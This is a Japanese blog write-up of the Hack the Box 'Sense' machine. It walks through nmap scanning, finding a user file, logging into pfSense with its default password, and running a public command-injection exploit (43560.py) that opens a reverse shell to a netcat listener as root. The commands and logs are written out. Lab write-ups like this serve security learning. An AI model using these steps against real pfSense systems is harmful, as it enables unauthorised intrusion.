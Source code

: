 ```yaml
---
title: "【Hack the Box write-up】Sense"
date:  "2020-04-12T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Sense"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-04-12 15.16.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/186a9d13-f491-43cc-e7fe-7e8ddcd34db7.png)

OSCPlike な machine だそうです
https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines

## nmap

```
kali@kali:~$ nmap -sC -sV  10.10.10.60
Starting Nmap 7.80 ( https:/ map.org ) at 2020-04-12 00:34 EDT
Nmap scan report for 10.10.10.60
Host is up (0.22s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https:/ map.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.22 seconds
```

## 443ポートを見てみる
![スクリーンショット 2020-04-12 15.18.00.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/47820283-1e0a-2c66-01b8-630fd84fa73e.png)

こんな感じの login フォームが出てきます


## dirbuster
（途中までですが）

![スクリーンショット 2020-04-12 16.45.25.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a4130212-d9ff-a0d8-3039-8067e2c6fbd2.png)
system-users.txt って言う怪しいのが出てきました

## system-users.txtを見る

```
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

default の password は以下から pfsense だとわかります
https://docs.netgate.com/pfsense/en/latest/usermanager/pfsense-default-username-and-password.html

## login

login すると以下のようなページが出てきます
![スクリーンショット 2020-04-12 14.08.24.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/9d601c71-b74d-bca3-d869-1c1562be66ea.png)

これで pfsense の version が `2.1.3-release` だとわかります

## searchsploit

```
kali@kali:~$ searchsploit pfsense
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                        |  Path
                                                                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                                                    | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                                                          | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                                                      | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                                                  | exploits/hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                                                          | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                                                          | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution                                          | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                                                 | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                                                | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                                                   | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                                                   | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                                                     | exploits/php/webapps/41501.txt
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                                                       | exploits/php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                                                          | exploits/php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                                                               | exploits/multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                                                             | exploits/php/webapps/46936.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                        | exploits/php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                                                            | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                                                       | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                                                          | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                                                     | exploits/freebsd/webapps/24439.txt
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection `を試してみます

## exploit

```
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.13 --lport 1212 --username rohit --password pfsense
```

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.60] 62626
sh: can't access tty; job control turned off
## whoami
root
```

一発で root まで取れてしまいました

## 終わりに
今回はかなり簡単な machine でした。
頑張って精進していきます

 
